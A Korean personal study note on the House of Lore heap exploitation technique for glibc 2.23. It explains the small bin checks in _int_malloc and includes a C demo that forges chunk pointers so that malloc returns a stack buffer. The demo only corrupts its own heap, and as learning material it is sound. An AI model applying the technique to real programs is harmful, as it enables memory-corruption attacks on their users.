

# Heap Exploit - House of Lore

## 요약

기법을 크게 요약하면  small bin을 재할당 받는 조건을 우회하여 stack 등 원하는 위치에 heap chunk를 할당받는 것.

일단 ubuntu 16.04에서만 된다(glibc 2.23). 그 이상 버전 부터는 안됨... 이유는... 코드를 뜯어봐야 압니다...

## small bin 할당 조건?

```C
/*
_int_malloc 소스코드
[변수 정리]
nb : malloc 인자로 요청받은 동적 할당할 size값
av : arena의 주소 (main_arena 또는 thread_arena)
victim : 할당할 대상(다른이름으로는 위치)의 주소
bin : small bin의 관리 대상인 해제된 청크.
bk : backward pointer : 같은 bin내에서 현재 청크 다음에 해제된 청크의 주소
fd : forward pointer : 같은 bin내에서 현재 청크 이전에 해제된 청크의 주소
*/
if (in_smallbin_range (nb))								// [A]
{
	idx = smallbin_index (nb);							// small bins에서 nb값과 같은 size를 가지는 bin의 index를 가져옴
	bin = bin_at (av, idx);								// arena에서 index값을 참고해 bin의 주소를 가져옴. 
    													// 이때, header의 주소를 포함시킨 주소를 가져오기 위해 (bin의 주소-0x10)을 함.
    													// (0x10은 x64 기준, 0x86은 0x8을 뻄)
	if ((victim = last (bin)) != bin)					// [B]	// last(bin) : #define last(b)      ((b)->bk)
        														// small bin은 FIFO이기 떄문에 bin 다음에 해제된 청크가 
        														// 할당 대상인 victim이 된다는 것은 사실상 bin은 이미 할당되어 
        														// small bin에서 빠진 청크라는 것이다.
	{
		if (victim == 0) /* initialization check */
		    malloc_consolidate (av);					// victim의 값이 0이면 arena를 초기화 시켜줌.
        												// malloc_consolidate()는 그냥 arena가 초기화 되어있는 경우, fast bin을 합쳐서 
        												// unsorted bin에 넣고, arena가 초기되어있지 않는 경우에는 arena를 초기화 시켜주는
        												// 함수입니다... 근데 여기서 솔직히 정확히 뭘 초기화 시킨다는건지 모르겠습니다...
		else
	    {
			bck = victim->bk;
			if (__glibc_unlikely (bck->fd != victim))	// [C]
	        {
				errstr = "malloc(): smallbin double linked list corrupted";
				goto errout;
	        }
			set_inuse_bit_at_offset (victim, nb);
			bin->bk = bck;
			bck->fd = bin;
	        ...
	    }
	}
}
```

small bin을 할당할때는 아래와 같은 조건이 존재함.

- [A] : 할당할 chunk가 small bin size인가?
- [B] : victim(bin->bk)이 bin은 아닌가?
  - bin->bk == bin이라면 "malloc() : memory curruption" 에러 출력 후 바이너리 종료.  같다는 건 연속으로 double free 되었다는 뜻이기 때문임.
- [C] : victim chunk 다음에 해제된 chunk의 fd->bk가 victim chunk가 맞는가?

이 3가지 조건을 우회해주면 small bin으로 어디든 할당이 가능하다... (물론 쓰기 권한이 있다는 가정하에)

(참고: small bin은 처음에는 unsorted bin에 있다가, 아무 size의 chunk나 할당이 되면(재할당 제외) 그때, unsorted bin에 있던 freed chunk가 small bin으로 넘어가게 된다.)

## 실습 (설명은 주석으로...)

```C
// gcc -o lore1 lore1.c // 코드 출처 : dreamhack.io
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main()
{
    uint64_t  *ptr1, *ptr2, *ptr3, *top;
    uint64_t *fake1, *fake2;
    uint64_t fake_chunk[4];
    uint64_t fake_chunk2[3];
    
    fprintf(stderr, "fake_chunk: %p\n", fake_chunk);
    fprintf(stderr, "fake_chunk2: %p\n", fake_chunk2);
    
    // 초기 설정
    ptr1 = malloc(0x100);
    ptr2 = malloc(0x100);
    ptr3 = malloc(0x100);
    fprintf(stderr, "ptr1: %p\n", ptr1);
    fprintf(stderr, "ptr2: %p\n", ptr2);
    fprintf(stderr, "ptr3: %p\n", ptr3);
    free(ptr1);
    free(ptr3);
    
    top = malloc(0x110);					// ptr1을 unsorted bin -> small bin으로 보냄
    
    // 첫번째 small bin을 ptr1에 성공적으로 할당시키기 + 다음 small bin node로 fake chunk 추가
    fake_chunk[0] = 0;						// fake prev_size
    fake_chunk[1] = 0x111;					// fake_chunk의 size값 설정
    fake_chunk[2] = (uint64_t)ptr1 - 0x10;	// -0x10을 하는 이유는 청크의 헤더를 포함한 주소가 필요하기 때문이다.
    ptr1[1] = (uint64_t)&fake_chunk;		// ptr1의 bk에 &fake_chunk 저장
    
    // 첫번째 small bin인 ptr1에 첫번째 할당. 이를 통해 다음 small bin 할당 우선 순위는 fake_chunk가 됨.
    fake1 = malloc(0x100); 					
    
    // fake chunk에 할당하기 위해 bck->fd 우회
    fake_chunk[3] = (uint64_t)&fake_chunk2;	// fake_chunk의 bk에 fake_chunk2의 주소를 저장.
    fake_chunk2[2] = (uint64_t)&fake_chunk;	// fake_chunk2의 fd에 해당하는 부분에 fake_chunk의 주소를 저장.
    
    // stack에 있는 fake chunk에 할당
    fake2 = malloc(0x100); //victim malloc2	
    
    fprintf(stderr, "fake1: %p\n", fake1);
    fprintf(stderr, "fake2: %p\n", fake2);
    
    return 0;
}
```



위의 실행 결과의 fake2를 보면 stack에 위치한 fake_chunk가 잘 할당되어 있는 것을 확인 할 수 있다.


## 추가로 알게된 것

### fprintf(stderr, "...", ...)와 printf의 차이

printf는 버퍼를 사용하기 때문에 버퍼를 비우기 전까지는 값을 볼 수 없지만, fprintf(stderr, "...", ...)는 버퍼를 사용하지 않아 바로 출력이 가능하다.


## Reference

[Heap Allocator Exploit](https://dreamhack.io/lecture/courses/16) - dreamhack.io 강의 - 코드들이랑 설명 요약이 잘되어있슴.


예전에 했던건데 오랜만에 보니까 기억이 안나서 정리합니다.